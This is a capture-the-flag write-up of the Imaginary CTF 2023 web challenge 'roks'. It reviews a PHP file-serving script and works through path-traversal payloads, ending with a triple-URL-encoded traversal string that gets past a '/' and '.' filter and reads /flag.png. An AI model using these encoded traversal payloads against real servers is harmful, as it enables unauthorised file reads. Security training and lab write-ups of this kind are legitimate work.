 ```yaml
---
CTF: Imaginary CTF 2023
Challenge Name: roks
Category: Web
Date: 22/07/23
Author: FIREPONY57
Points: 100
Solves: 328
---
```


### Description
>My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

Source code is provided, so let's review it before we check [the site](http://roks.chal.imaginaryctf.org).

## Recon
The `Dockerfile` shows us where to look for the flag.
```dockerfile
COPY flag.png /
```

`index.php` has a function to GET a random image.
```js
function requestRandomImage() {
var imageList = ["image1", "image2", "image3", "image4", "image5", "image6", "image7", "image8", "image9", "image10"]

	var randomIndex = Math.floor(Math.random() * imageList.length);
	var randomImageName = imageList[randomIndex];

	var xhr = new XMLHttpRequest();
	xhr.onreadystatechange = function () {
		if (xhr.readyState === 4 && xhr.status === 200) {
			var blob = xhr.response;
			var imageUrl = URL.createObjectURL(blob);
			document.getElementById("randomImage").src = imageUrl;
		}
	};

	xhr.open("GET", "file.php?file=" + randomImageName, true);
	xhr.responseType = "blob";
	xhr.send();
}
```

You'll notice that it makes a request to `file.php` with a user-controllable GET parameter, possible LFI. Checking the source, we'll see that parameters including `/` or `.` will be blocked, preventing us from using directory traversal, e.g. `../../`.
```php
$filename = urldecode($_GET["file"]);
if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
} else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
}
```

## Solution
We load the site and click the `get rok picture`. Each time, it retrieves a new random rock picture. The URL doesn't change but we know from the source code, we can simply access a URL like: http://roks.chal.imaginaryctf.org/file.php?file=image1

We try LFI: http://roks.chal.imaginaryctf.org/file.php?file=../../../flag.png

As expected, we get the `stopHacking.png` which tells us to `STOP HACKING OUR COMPUTER.. YOU HACKERS`.

Let's try with URL encoding: `%2e%2e%2f%2e%2e%2f%2e%2e%2fflag.png`

No difference, but I realised we aren't allowed a single dot in the string, so tried `%2e%2e%2f%2e%2e%2f%2e%2e%2fflag%2epng` but no luck.

Tried to double-URL encode: `%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66flag%25%32%65png`

Still no luck, so I tried URL encode with unicode: `%u002e%u002e%u002f%u002e%u002e%u002f%u002e%u002e%u002fflag%u002epng`

This time, we get some errors.
```txt
Warning: mime_content_type(images/%u002e%u002e%u002f%u002e%u002e%u002f%u002e%u002e%u002fflag%u002epng): Failed to open stream: No such file or directory in /var/www/html/file.php on line 9

Warning: Cannot modify header information - headers already sent by (output started at /var/www/html/file.php:9) in /var/www/html/file.php on line 10

Warning: readfile(images/%u002e%u002e%u002f%u002e%u002e%u002f%u002e%u002e%u002fflag%u002epng): Failed to open stream: No such file or directory in /var/www/html/file.php on line 11
```

Hmmm OK so reviewing the code again, notice that it first URL decodes the filename.
```php
$filename = urldecode($_GET["file"]);
```

Next, it checks if the filename contains `/` or `.` and if it doesn't, it will URL decode the filename a second time.
```php
$filePath = "images/" . urldecode($filename);
```

This made me think my approach of double URL encoding was correct, I'd just failed to directory traverse far enough since `/var/www/html/images/` requires `../../../../` to get back to the root directory: `%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66flag%25%32%65png`

Still doesn't work 😬 Maybe I need to triple URL encode: `%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2536%2536%2525%2536%2563%2525%2536%2531%2525%2536%2537%2525%2532%2565%2525%2537%2530%2525%2536%2565%2525%2536%2537`

Yep, that did the trick! We get a PNG image containing the flag. I'm too lazy to type it out, so I extract the text from the image.
```bash
sudo apt-get install tesseract-ocr
```
```bash
tesseract file.png stdout
ictf{tr4nsv3rsing Ov3r_rOk5_6a3367}
```

Tesseract got 4 characters wrong 🙄 Manually corrected the flag!
```txt
ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}
```
